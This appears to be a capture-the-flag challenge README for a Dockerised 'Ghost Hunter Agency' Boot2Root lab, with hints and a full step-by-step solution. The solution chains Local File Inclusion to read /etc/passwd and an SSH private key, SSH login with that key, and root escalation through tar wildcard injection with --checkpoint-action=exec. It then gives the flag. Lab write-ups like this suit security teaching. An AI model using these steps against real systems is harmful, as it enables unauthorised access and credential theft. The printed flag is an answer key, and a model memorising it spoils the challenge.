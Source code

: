 # Ghost Hunter Agency

## Challenge Description
The Paranormal Investigation Agency website has been compromised by digital ghosts! The agency's secure file system contains sensitive information about paranormal investigations. Your mission is to infiltrate their systems, gain access through their vulnerable website, and escalate your privileges to capture the flag.

## Difficulty
Medium

## Category
Boot2Root

## Setup Instructions
```bash
cd Boot2Root/Challenge\ 2/
docker-compose up -d
```

The challenge will be available at:
- Web: http://localhost:80
- SSH: ssh -p 2222 ghosthunter@localhost (requires the private key)

## Hints
1. The website has a file viewer function that might not properly restrict access to local files.
2. SSH authentication keys are typically stored in the user's .ssh directory.
3. The backup script runs with elevated privileges using a wildcard that can be exploited.
4. Look for SUDO permissions that could allow for command execution.

## Solution
1. Discover the Local File Inclusion vulnerability in the website's file viewer:
   ```
   http://localhost/viewer.php?file=/etc/passwd
   ```

2. Retrieve the SSH private key:
   ```
   http://localhost/viewer.php?file=/home/ghosthunter/.ssh/id_rsa
   ```
   or
   ```
   http://localhost/viewer.php?file=/root/ghosthunter_id_rsa
   ```

3. Save the key to a file, set permissions, and connect via SSH:
   ```bash
   chmod 600 id_rsa
   ssh -i id_rsa -p 2222 ghosthunter@localhost
   ```

4. Check for SUDO permissions and examine the backup note:
   ```bash
   sudo -l
   cat ~/backup_note.txt
   ```

5. Exploit the tar wildcard to execute commands as root:
   ```bash
   cd /tmp
   echo '#!/bin/bash' > shell.sh
   echo 'cat /root/flag.txt > /tmp/flag.txt' >> shell.sh
   echo 'chmod 644 /tmp/flag.txt' >> shell.sh
   chmod +x shell.sh
   touch -- "--checkpoint=1"
   touch -- "--checkpoint-action=exec=sh shell.sh"
   sudo tar -cf /backups/backup.tar *
   cat /tmp/flag.txt
   ```

## Flag
```
flag{gh0st_hunt3r_LFI_t0_RCE}
```

## Clean Up
```bash
docker-compose down
``` 